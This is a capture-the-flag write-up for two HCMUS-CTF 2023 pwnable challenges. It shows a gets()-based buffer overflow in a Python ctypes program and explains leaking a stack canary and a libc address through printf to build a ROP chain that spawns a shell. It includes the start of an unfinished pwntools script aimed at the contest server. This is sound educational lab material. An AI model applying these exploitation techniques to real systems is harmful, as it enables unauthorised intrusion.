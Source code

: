 Flag:
```HCMUS-CTF{https://www.youtube.com/watch?v=nmgFG7PUHfo}```

# Pwnable
I solved 2 out of 4( the last challenge my friend did, but i will replace him explaining how he did)
Because CTF has end, I cannot find the challenge files(also the server is closed too), so I will explain it by what I can remember.
### 1.Python_is_safe
```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'HCMUS-CTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```
In the first challenge, it just a normal BOF challenge, overflow the first char array to fill the second array and it's done.

Flag:
```HCMUS-CTF{pYt40n_4rE_s|U|Perrrrrrr_5ecureeeeeeeeeeee}```

### 2. Coin mining
In the second challenge - coin mining. 2 things need to do:
-   Find the canary
-   Find the libc base address
Here is the disassemble source code from binary:
![](https://github.com/sinkthemall/Cryptography_Writeup/blob/main/HCMUS_CTF/2023/coin_mining/coin_mining_source.png)

In the first problem, it's actually not hard as ```read(0, buf, 0x200uLL);``` allow us to read up to 0x200 characters, so just fill the buffer until it reach canary. The ```printf("%s??\n", buf);``` will print all character from buf until it reach null byte( because we already fill up with "a" bytes, so it also print out the canary), from here, we have the canary and can make ROP gadget.
In the second problem, how do we leak the libc address. Before entering main function, the ELF must first setup things by call __libc_start_main. ![](https://github.com/sinkthemall/Cryptography_Writeup/blob/main/HCMUS_CTF/2023/coin_mining/backtrace.png)

In here, we can leak the return address of main by again: ```printf("%s??\n", buf);``` using the same way( fill up buffer until it reach the return address). And if we can find the return address from libc (which is the actual address, not changing by PIE), we can find the libc base address. After that, we can use all gadget, all function from libc we want and building the ROPchain to spawn shell.( I am not really good at explain this).

Solution:
```python
from pwn import *
libc = ELF("./libc.so.6")
context.binary = "./coin_mining"
#context.log_level = "debug"

gdbscripter = '''
break *printf
set backtrace past-entry
'''
#s = gdb.debug("./coin_mining", gdbscript = gdbscripter)
s = remote("coin-mining-01a74ac89ed12715.chall.ctf.blackpinker.com", 443, ssl = True)
#s = process(executable = "./coin_mining", argv = [])
s.sendlineafter(b"Greet, do you want some coin? \n", b"1")
#s.sendlineafter(b"Greet, do you want some coin? \n", b"2")

```